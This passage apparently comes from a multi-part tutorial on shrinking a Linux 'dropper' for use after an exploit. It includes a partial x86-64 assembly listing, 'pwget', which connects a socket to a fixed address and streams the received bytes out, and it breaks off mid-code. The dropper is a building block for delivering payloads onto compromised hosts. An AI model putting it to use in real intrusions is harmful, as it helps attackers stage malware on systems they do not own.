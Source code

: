 In other occasions, you just have a exploit that allows you to run a very small code, or transfer a few bytes. Anyway, in general, the smaller your dropper the better so we are going to shrink it as much as we could. And we already know how to do this, so I will just go quick with this. We will just substitute the system calls for assembly versions and get rid of the libc.

You can find the code in my github and try to recompile it yourself... or even better, you can try to write it based on what we discussed on Part II. Using this technique I manage to get my dropper down to 1.8Kb static binary (that means that I do not depend on any specific library whatsoever).

But we can do way better re-writing it in asm.

# pwget (picoWget)

No, the name is not because of me. It is because the previous one was `nwget` or nanoWget, so we are going smaller this time. `pwget` is the direct asm translation of `nwget` and this is how it looks like:

```nasm
section	.text
global _start

_start:
	push rbp
	mov  rbp, rsp
	sub  rsp, 1024 + 8 + 8	; Read buffer + Socket + size 
	
	;; Variables
	;; [rbp + 0x00] -> s (socket)
	;; [rbp + 0x08] -> len (int)
	;; [rbp + 0x10] -> buf (unsigned char)
	;; Create socket
	;; s = socket (PF_INET=2, SOCK_STREAM=1, IPPROTO_TCP=6);
	mov  rdi, 2		; PF_INET 2
	mov  rsi, 1		; SOCK_STREAM
	mov  rdx, 6     ; IPPROTO_TCP
	mov  r8, 10 
	call _socket
	mov  [rbp + 0x00], rax	; Store socket in stack
	cmp  rax, 0
	jle  error

	;; connect (s [rbp+0], addr, 16)
	mov  rdi, rax
	lea  rsi, [rel addr]
	mov  rdx, 16
	mov  r8, 20
	call _connect
	test eax, eax
	jl error

l0:	; Read loop
	;; Read data from socket
	;; _read (s = [rbp + 0], [rbp + 0x10], 1024);
	mov rdi, [rbp + 0]
	lea rsi, [rbp+0x10]
	mov rdx, 1024
	call _read
	mov [rbp + 0x08], rax	; Store number of bytes read
	cmp rax, 0
	jle done

	;; Write to stdout
	;; _write (1, [rbp+0x10], [rbp+0x08])
	mov rdi, 1
```